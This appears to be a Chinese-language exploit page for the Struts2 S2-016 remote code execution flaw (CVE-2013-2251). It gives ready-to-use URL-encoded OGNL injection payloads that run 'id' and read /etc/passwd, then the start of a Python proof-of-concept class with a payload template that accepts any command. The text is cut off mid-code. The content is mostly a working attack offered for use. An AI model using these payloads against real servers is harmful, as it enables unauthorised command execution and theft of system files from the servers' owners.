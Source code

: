 #### 执行命令

```java
?redirect%3A%24%7B%23a%3D(new%20java.lang.ProcessBuilder(new%20java.lang.String%5B%5D%20%7B%22id%22%7D)).start()%2C%23b%3D%23a.getInputStream()%2C%23c%3Dnew%20java.io.InputStreamReader%20(%23b)%2C%23d%3Dnew%20java.io.BufferedReader(%23c)%2C%23e%3Dnew%20char%5B50000%5D%2C%23d.read(%23e)%2C%23matt%3D%20%23context.get('com.opensymphony.xwork2.dispatcher.HttpServletResponse')%2C%23matt.getWriter().println%20(%23e)%2C%23matt.getWriter().flush()%2C%23matt.getWriter().close()%7D
```

#### 读取文件

```java
?redirect%3A%24%7B%23a%3D(new%20java.lang.ProcessBuilder(new%20java.lang.String%5B%5D%20%7B%22cat%22%2C%22/etc/passwd%22%7D)).start()%2C%23b%3D%23a.getInputStream()%2C%23c%3Dnew%20java.io.InputStreamReader%20(%23b)%2C%23d%3Dnew%20java.io.BufferedReader(%23c)%2C%23e%3Dnew%20char%5B50000%5D%2C%23d.read(%23e)%2C%23matt%3D%20%23context.get('com.opensymphony.xwork2.dispatcher.HttpServletResponse')%2C%23matt.getWriter().println%20(%23e)%2C%23matt.getWriter().flush()%2C%23matt.getWriter().close()%7D
```

### POC

```python
#!/usr/bin/env python3

import shlex
import random
import string
import urllib
import requests

class S2_016_BaseVerify:
    def __init__(self, url):
        self.info = {
            'name': 'Struts2 S2-016漏洞,又名CVE-2013-2251漏洞',
            'description': 'Struts2 S2-016漏洞可执行任意命令,影响范围为: Struts 2.0.0 - Struts 2.3.15',
            'date': '2013-06-03',
            'type': 'RCE'
        }
        self.url = url
        if not self.url.startswith("http") and not self.url.startswith("https"):
            self.url = "http://" + self.url
        if '.action' not in self.url:
            self.url = self.url + '/index.action'
        self.capta = self.get_capta() 
        self.headers = {
            'User-Agent': "Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/45.0.2454.85 Safari/537.36 115Browser/6.0.3",
            'Content-Type': "application/x-www-form-urlencoded",
            'Connection': "keep-alive",
        }
        self.payload = '''?redirect%3A%24%7B%23a%3D(new%20java.lang.ProcessBuilder(new%20java.lang.String%5B%5D%20%7B{cmd}%7D)).start()%2C%23b%3D%23a.getInputStream()%2C%23c%3Dnew%20java.io.InputStreamReader%20(%23b)%2C%23d%3Dnew%20java.io.BufferedReader(%23c)%2C%23e%3Dnew%20char%5B50000%5D%2C%23d.read(%23e)%2C%23matt%3D%20%23context.get('com.opensymphony.xwork2.dispatcher.HttpServletResponse')%2C%23matt.getWriter().println%20(%23e)%2C%23matt.getWriter().flush()%2C%23matt.getWriter().close()%7D'''
   
    def get_capta(self):
        
        """
        获取一个随机字符串

        :param:

```